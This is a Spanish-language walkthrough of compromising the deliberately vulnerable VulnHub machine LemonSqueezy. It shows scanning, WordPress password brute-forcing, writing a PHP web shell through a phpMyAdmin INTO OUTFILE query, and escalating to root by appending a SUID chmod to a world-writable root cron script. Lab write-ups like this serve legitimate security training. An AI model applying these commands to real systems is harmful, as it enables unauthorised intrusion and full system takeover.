 ```yaml
---
title: VulnHub - LemonSqueezy
published: true
---
```


---

[Lemonsqueezy1](@https://www.vulnhub.com/entry/lemonsqueezy-1,473/)

La descripcion comenta que agreguemos ‘lemonsqueezy’ al hosts.

## Intrusion

Empiezo haciendo un escaneo con Nmap para ver puertos de la maquina.

```bash
>Nmap scan report for lemonsqueezy (192.168.1.32)
Host is up (0.0014s latency).
PORT   STATE SERVICE
80/tcp open  http
```

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img.png)

Con Nikto busco posibles vulnerabilidades o recursos en la pagina.

```bash
nikto -host 192.168.1.32
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.1.32
+ Target Hostname:    lemonsqueezy
+ Target Port:        80
+ Start Time:         2023-02-08 18:59:50 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS 
+ OSVDB-3092: /manual/: Web server manual found.
+ /wordpress/: A Wordpress installation was found.
+ /phpmyadmin/: phpMyAdmin directory found
---------------------------------------------------------------------------
+ End Time:           2023-02-08 19:00:08 (GMT-3) (18 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Reporta 2 directorios interesantes.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img1.png)

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img2.png)


Con wpscan busco posibles usuarios para tratar de ingresar en el panel de phpmyadmin o en el wordpress.

```bash
wpscan --url http://192.168.1.32/wordpress/ -e u
[sudo] password for eddie: 
_______________________________________________________________

[+] URL: http://192.168.1.32/wordpress/ [192.168.1.32]

Interesting Finding(s):

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] lemon
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


Me reporta 2 usuarios, pero todavia no tengo ninguna contraseña para probar, por lo que lanzo otro escaneo para hacer fuerza bruta y tratar de conseguir contraseñas.

wpscan --url http://192.168.1.32/wordpress/ -U orange -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - orange / ginger                                                                                                                                      
Trying orange / sweetie Time: 00:00:02 <==========================================================================> (165 / 14344557)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: orange, Password: ginger

```

| User         | Password          |
|:-------------|:------------------|
| orange       | ginger		   |


Con estas credenciales puedo iniciar sesion en el panel de log in de wordpress.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img3.png)

Al ingresar ya se ve algo raro, un nota que dice “mantener esto seguro” y lo que parace ser una contraseña.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img4.png)

Con esta nueva contraseña se puede tratar de ingresar al panel de phpmyadmin como el usuario orange o lemon.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img5.png)

Este usuario y contraseña son validos, por lo que me deja ingresar a phpmyadmin.

Una vez dentro de PhpMyAdmin la idea es subir una shell al servidor web; ya que puedo ver la base de datos ‘wordpress’ voy a tratar de crear una consulta SQL maliciosa que en una ruta dada de la pagina pueda ejecutar comandos.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img6.png)

Primero creamos la consulta, vamos a la pestaña SQL que es donde vamos a ingresar el codigo de la consulta y agregamos esa linea para poder ejecutar comandos en la ruta http://192.168.1.32/wordpress/shell.php con el parametro cmd. 

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php"
```

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img7.png)

Ahora que puedo ejecutar comandos queda entablar una reverse shell.

![](https://eidd3.github.io//assets/img/LemonSqueezy1/img8.png)


## Escalando Privilegios

Si vemos las tareas cron que se ejecutan en el sistema vemos que root ejecuta cada 2 minutos logrotate.

```bash
bash-4.4$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate
```

```bash
bash-4.4$ cat /etc/logrotate.d/logrotate 
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```

```bash
bash-4.4$ ls -la /etc/logrotate.d/logrotate 
-rwxrwxrwx 1 root root 134 Feb  9 06:56 /etc/logrotate.d/logrotate
```

El archivo tiene permisos 777 por lo que otro pueden editar el archivo, asi que con la libreria os importada puedo hacer que root le de permisos SUID a la bash y esperar que ejecute la tarea para convertirme en root.

```bash
bash-4.4$ cat /etc/logrotate.d/logrotate 
#!/usr/bin/env python
import os
import sys
os.system('chmod u+s /bin/bash')
try:
   os.system('rm -r /tmp/* ')
except:
    sys.exit()
```

```bash
bash-4.4$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1099016 May 16  2017 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

